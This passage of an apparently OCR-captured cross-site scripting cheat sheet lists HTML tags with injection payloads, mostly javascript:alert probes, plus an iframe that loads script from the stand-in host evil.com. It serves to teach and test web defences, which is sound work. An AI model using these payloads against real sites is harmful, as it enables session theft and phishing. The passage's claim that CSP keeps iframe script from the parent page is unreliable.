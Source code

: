 *&lt;!-- onload attribute --&gt;*\
&lt;body onload=alert("XSS")&gt;\
*&lt;!-- background attribute --&gt;*\
&lt;body background="javascript:alert("XSS")"&gt;

### **&lt;img&gt; tag**

Some browsers will execute JavaScript when found in the &lt;img&gt;.

*&lt;!-- &lt;img&gt; tag XSS --&gt;*\
&lt;img src="javascript:alert("XSS");"&gt;\
*&lt;!-- tag XSS using lesser-known attributes --&gt;*\
&lt;img dynsrc="javascript:alert('XSS')"&gt;\
&lt;img lowsrc="javascript:alert('XSS')"&gt;

### **&lt;iframe&gt; tag**

The &lt;iframe&gt; tag allows the embedding of another HTML page into
the parent page. An IFrame can contain JavaScript, however, it’s
important to note that the JavaScript in the iFrame does not have access
to the DOM of the parent’s page do to the browser’s Content Security
Policy (CSP). However, IFrames are still very effective means of pulling
off phising attacks.

*&lt;!-- &lt;iframe&gt; tag XSS --&gt;*\
&lt;iframe src=”http://evil.com/xss.html”&gt;

### **&lt;input&gt; tag**

In some browsers, if the type attribute of the &lt;input&gt; tag is set
to image, it can be manipulated to embed a script.

*&lt;!-- &lt;input&gt; tag XSS --&gt;*\
&lt;input type="image" src="javascript:alert('XSS');"&gt;

### **&lt;link&gt; tag**

The &lt;link&gt; tag, which is often used to link to external style
sheets could contain a script.

*&lt;!-- &lt;link&gt; tag XSS --&gt;*\
&lt;link rel="stylesheet" href="javascript:alert('XSS');"&gt;

### **&lt;table&gt; tag**

The background attribute of the table and td tags can be exploited to
refer to a script instead of an image.

*&lt;!-- &lt;table&gt; tag XSS --&gt;*\
&lt;table background="javascript:alert('XSS')"&gt;\
*&lt;!-- &lt;td&gt; tag XSS --&gt;*\
&lt;td background="javascript:alert('XSS')"&gt;

### **&lt;div&gt; tag**

